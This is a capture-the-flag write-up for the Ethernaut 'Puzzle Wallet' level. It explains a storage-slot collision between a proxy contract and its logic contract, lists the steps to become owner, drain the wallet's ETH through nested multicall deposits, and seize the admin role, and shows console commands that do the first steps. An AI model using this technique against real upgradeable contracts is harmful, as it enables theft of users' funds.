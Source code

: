 # Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.

  Things that might help::

Understanding how delegatecalls work and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.

Recommend watch youtube [Multi Delegatecall | Solidity 0.8](https://youtu.be/NkTWU6tc9WU)
for understand muticall concept, the example code from that youtube in (example.sol)[https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/example.sol]

### Description
In an easy word, _Proxy_ and _Logic_ contracts share storage via `delegatecall`, that means `pendingAdmin` is `owner` as well as `admin` is `maxBalance`.

| Slot | Variable           |
|------|--------------------|
| 0    | pendingAdmin/owner |
| 1    | admin/maxBalance   |
| 2    | whitelisted        |
| 3    | balances           |

In this sense, you can guess that `admin` can be set to a new value via `maxBalance`.
In order to set `maxBalance`, you have to be whitelisted as well as the wallet contract's ether balance has to be 0.
In order to add someone in whiltelist, you have to be `owner`.
In order to be `owner`, you can set `pendingAdmin` as yourself through `proposeNewAdmin` in `PuzzleProxy`.
Once you are whiltelisted, you can call `execute` and `multicall` strategically to steal ethers from the wallet contract.

### Step by step

1. Propose yourself as a new owner
2. Add yourself in whitelist
3. Manipulate your balance
4. Drain out ETH
   - `multicall([deposit, multicall([deposit])])`
   - `execute(yourself)`
5. Set `maxBalance` to be a new admin

Credit: idea about step by step is from [maAPPsDEV/puzzle-wallet-attack](https://github.com/maAPPsDEV/puzzle-wallet-attack)

## Test in console
```shell
contract.abi
(10) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]0: {inputs: Array(1), name: 'addToWhitelist', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}1: {inputs: Array(1), name: 'balances', outputs: Array(1), stateMutability: 'view', type: 'function', …}2: {inputs: Array(0), name: 'deposit', outputs: Array(0), stateMutability: 'payable', type: 'function', …}3: {inputs: Array(3), name: 'execute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}4: {inputs: Array(1), name: 'init', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}5: {inputs: Array(0), name: 'maxBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}6: {inputs: Array(1), name: 'multicall', outputs: Array(0), stateMutability: 'payable', type: 'function', …}7: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}8: {inputs: Array(1), name: 'setMaxBalance', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}9: {inputs: Array(1), name: 'whitelisted', outputs: Array(1), stateMutability: 'view', type: 'function', …}length: 10[[Prototype]]: Array(0)
```
```shell
contract.address
'0xdcde1dfC141EE526afE58C48be75835565806f7C'
```

```shell
await contract.owner();
'0xe13a4a46C346154C41360AAe7f070943F67743c9'
```

from contract.abi, it means we interact directly with PuzzleWallet contract not PuzzleProxy.
it cannot directly call the function `proposeNewAdmin` inside PuzzleProxy. Solve by using Remix to load your ABI PuzzleProxy into the address of the instance, or call it via function signature.

### Method1: call function signature and send transaction via console

function signature of the functionproposeNewAdmin:
```shell
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");
> '0xa6376746'
```
encode parameter:
```shell
web3.eth.abi.encodeParameter("address", player);
> '0x000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942'
```
Called data will be signature + encoded parameters:
```shell
contract.sendTransaction({ data: '0xa6376746000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942' });
```

### Method 2 using remix to load your ABI PuzzleProxy into the address of the instance
see solution in [test.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/test.js)
In this file, we use Alchemy web3 plugin to interact with metamask when send the raw transaction to contract.

![run](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/run.JPG)

Transaction in Alchemy mempool from web3 transaction to interact with proposeNewAdmin(player)

![run2](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/run2.JPG)

Verify result that you are the new owner:
```shell
await contract.owner();
```

Add yourself into whitelist:
```shell
await contract.addToWhitelist(player);
```

Verify result that player address in whitelist:
```shell
await contract.whitelisted(player);
```

Result on console:

![console](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/result1.JPG)

Step3 - Step5 see solution in file [delegate.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/delegate.js)

![complete](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/complete.JPG)